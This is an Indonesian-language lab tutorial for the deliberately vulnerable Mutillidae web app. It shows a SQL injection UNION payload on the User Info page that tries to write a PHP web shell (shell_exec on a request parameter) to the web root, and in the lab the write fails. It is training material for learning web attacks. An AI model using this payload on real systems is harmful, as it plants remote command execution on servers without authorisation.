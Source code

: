 # Mutillidae Lesson 11


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%208/1.png)

### SQL Injection dengan Output File execute_command.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
![](Mutillidae%20lesson%208/2.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2010/1.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2010/2.png)
